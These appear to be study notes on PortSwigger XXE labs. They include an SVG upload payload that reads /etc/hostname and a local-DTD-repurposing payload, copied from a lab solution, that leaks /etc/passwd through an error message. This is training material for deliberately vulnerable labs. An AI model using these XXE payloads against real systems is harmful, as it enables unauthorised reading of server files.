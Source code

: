 

> [!NOTE] Step 5
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```




![[Pasted image 20240803014736.png]]

1. uploaded test.svg ( blank file )
2. after confirming it accepted > injected the malicious code in the /image parameter
3. went back to the blog after following the re-direct
4. saw that the comment was posted with some data ( small line imitating image )
5. open image new tab
6. the solution of the lab was there in the image

---



# Lab: Exploiting XXE to retrieve data by repurposing a local DTD --> expert 

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.

You'll need to reference an existing DTD file on the server and redefine an entity from it.


#### Hint

Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso.`


#### Solution

1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Insert the following parameter entity definition in between the XML declaration and the `stockCheck` element:
    
    `<!DOCTYPE message [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> <!ENTITY % ISOamso ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '> %local_dtd; ]>` This will import the Yelp DTD, then redefine the `ISOamso` entity, triggering an error message containing the contents of the `/etc/passwd` file.



## Start Lab
